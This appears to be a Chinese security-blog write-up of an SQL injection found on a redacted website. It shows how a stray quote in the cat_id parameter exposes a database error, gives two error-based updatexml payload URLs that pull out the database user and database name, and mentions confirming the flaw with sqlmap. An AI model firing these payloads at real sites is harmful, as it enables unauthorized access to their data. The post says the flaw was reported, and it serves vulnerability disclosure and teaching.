 #  【相关分享】记一次SQL注入漏洞   
原创 隼目安全  隼目安全   2025-01-17 00:03  
  
## 免责声明  
> ❝  
> 由于传播、利用本公众号"隼目安全"所提供的信息而造成的任何直接或者间接的后果及损失,均由使用者本人负责,公众号"隼目安全"及作者不为此承担任何责任,一旦造成后果请自行承担!如有侵权烦请告知,我们会立即删除并致歉谢谢！  
  
  
本文中所涉及的相关漏洞已经向相关单位与平台进行报告，本文中图片、内容等均已脱敏！！！  
  
首先进入主页  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9HKdHo8BvC1Oz71n0YZF200RDJUUTMfKPx5n7iaDbJicBncbE3VGZLVOheDdGWtKMZwapTw97BQlCHxfmsZWFGmw/640?wx_fmt=png&from=appmsg "")  
  
随便点进去一个并找到这个数据包进行访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9HKdHo8BvC1Oz71n0YZF200RDJUUTMfKoxuUVmoIzy9ic74l6d1XibXkQbfxeVYv2wq4QZiaqhMlO1HPRfQQldbCg/640?wx_fmt=png&from=appmsg "")  
  
访问后再cat_id这里添加一个单引号显示报错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9HKdHo8BvC1Oz71n0YZF200RDJUUTMfKeohSfnYlXL1kCxPDATGUSwFBzsLe3uaPApmr2Ol5apkF3vUFZvicxdg/640?wx_fmt=png&from=appmsg "")  
  
根据这个报错点进行分析  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9HKdHo8BvC1Oz71n0YZF200RDJUUTMfKeUdTkp5Vt66MUHhoIZ4ExjzXZ3sGJDUZQDy46WHH2APQsiciavCBiau3w/640?wx_fmt=png&from=appmsg "")  
  
进行报错注入获取下用户名  
```
payload:https://www.xxxxx.com/ajax/visitrecord/?table_name=doc_real&data_id=93682&cat_id=updatexml(1,concat(0x3a,user(),0x3a),3)&request_from=1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9HKdHo8BvC1Oz71n0YZF200RDJUUTMfKMvwk0p12gibU57JBUgPFgegQQYRllb6hwU3eoehrmoF2ezHA9mzrvEg/640?wx_fmt=png&from=appmsg "")  
  
成功报错获取到用户名后获取数据库库名  
```
payload：https://www.xxxxx.com/ajax/visitrecord/?table_name=doc_real&data_id=93682&cat_id=updatexml(1,concat(0x3a,database(),0x3a),3)&request_from=1
```  
  
使用sqlmap进行扫描后获取到存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9HKdHo8BvC1Oz71n0YZF200RDJUUTMfK4AnpibXMN0KRYmL44CdMyJTeIEcLxPcZYHVpv4lCeE8Y9J5icm6EcZlA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/9HKdHo8BvC1Oz71n0YZF200RDJUUTMfK6pIpNoNQaungK387qZnsnLdFA5IGG47t2BSIjwKcj93nIyeYWNWYzA/640?wx_fmt=gif "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/9HKdHo8BvC1Oz71n0YZF200RDJUUTMfK9mVRWhFs7MnWxKmNnqiar6JT5g9EwgdHoMymWE3ZIicerhXsDRNOvskw/640?wx_fmt=png "")  
  
  
往期推荐  
  
  
  
[【相关分享】记一次小程序支付逻辑漏洞](http://mp.weixin.qq.com/s?__biz=Mzk0OTUwNTU5Nw==&mid=2247488515&idx=1&sn=305bbcdc6b74a5b775bcad8028dbd7f1&chksm=c3560f51f4218647c07917f11c612b0e408756a42f53e74fbcd670e279eaba1e2d4e996c98a0&scene=21#wechat_redirect)  
  
  
[【相关分享】记一次小程序抓包支付漏洞](http://mp.weixin.qq.com/s?__biz=Mzk0OTUwNTU5Nw==&mid=2247488490&idx=1&sn=f8724fe57ee0fae391d83baa2a71ce47&chksm=c35608b8f42181ae5a69f9681af8f736bc43b9044b75caca2bd4b722c9b07b9156bcdb312f73&scene=21#wechat_redirect)  
  
  
[【相关分享】记一次小程序逻辑漏洞](http://mp.weixin.qq.com/s?__biz=Mzk0OTUwNTU5Nw==&mid=2247488478&idx=1&sn=0e94195de32c6cc2af2df00db511b92a&chksm=c356088cf421819a74006f84b8b0303caa10977a6b5a0cc383c79c8f4599c636bb5f72e54e35&scene=21#wechat_redirect)  
  
  
[【相关分享】记一次权限认证绕过](http://mp.weixin.qq.com/s?__biz=Mzk0OTUwNTU5Nw==&mid=2247488460&idx=1&sn=bcd136fb32240369330732778bea5949&chksm=c356089ef4218188cba7bdb62665812585d71e9361de820439635d50d8e1693de14b7bb31b86&scene=21#wechat_redirect)  
  
  
[【相关分享】简述API安全](http://mp.weixin.qq.com/s?__biz=Mzk0OTUwNTU5Nw==&mid=2247488437&idx=1&sn=c71e2763d8c806f5730b3eb426386c16&chksm=c35608e7f42181f1d850ce889a512cecee2d7020a3a930d34c19ee131119e28e5a85756ec02e&scene=21#wechat_redirect)  
  
  
  
文稿 | 雾鲤  
  
制作 | x8i  
  
审发 | 隼目安全  
  
  
  

